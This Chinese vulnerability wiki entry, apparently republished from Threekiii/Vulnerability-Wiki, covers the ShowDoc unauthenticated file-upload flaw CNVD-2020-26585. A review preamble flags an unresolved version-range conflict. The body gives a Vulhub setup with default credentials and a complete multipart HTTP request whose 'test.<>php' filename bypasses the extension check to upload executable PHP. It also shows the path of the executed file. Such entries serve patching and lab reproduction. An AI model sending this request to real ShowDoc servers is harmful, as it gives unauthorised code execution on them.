


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：uploadImg未认证入口及上传目录可执行PHP

- **事实待核（1）**：与407同&lt;&gt;后缀机制但范围&lt;=2.8.6对&lt;2.8.3冲突，提供两修复commit有利核分支/补丁。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：有完整HTTP和执行图比404损坏脚本强；PHP echo标签的phpinfo返回值不影响执行但应保持原码。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（3）**：初始登录用于安装不是利用认证，须区分；Content-Length固定需随payload计算。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# ShowDoc 前台任意文件上传 CNVD-2020-26585

## 漏洞描述

Showdoc 是一个开源的在线共享文档工具。

Showdoc <= 2.8.6 存在 uploadImg 文件上传漏洞，该漏洞源于未正确使用 upload 方法至文件后缀限制失效，攻击者可在未授权的情况下上传任意文件，进而获取服务器权限等。

参考链接：

- https://github.com/star7th/showdoc/pull/1059
- https://github.com/star7th/showdoc/commit/fb77dd4db88dc23f5e570fc95919ee882aca520a
- https://github.com/star7th/showdoc/commit/e1cd02a3f98bb227c0599e7fa6b803ab1097597f

## 漏洞影响

```
Showdoc <= 2.8.6
```

## 网络测绘

```
app="ShowDoc"
```

## 环境搭建

Vulhub 执行如下命令启动一个 ShowDoc 2.8.2 服务器：

```
docker compose up -d
```

服务启动后，安装，初始账号密码 `showdoc/123456`。访问 `http://your-ip:8080` 即可查看到 ShowDoc 的主页。


## 漏洞复现

发送如下请求上传一个 PHP 文件：

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBCbwAmmXaS7UssMW
Content-Length: 216


------WebKitFormBoundaryBCbwAmmXaS7UssMW
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?=phpinfo();?>
------WebKitFormBoundaryBCbwAmmXaS7UssMW--
```

PHP 文件路径将返回在数据包中：




访问即可查看到 `phpinfo()` 执行结果：

```
http://your-ip:8080/Public/Uploads/2024-06-03/665d568d2cdd9.php
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
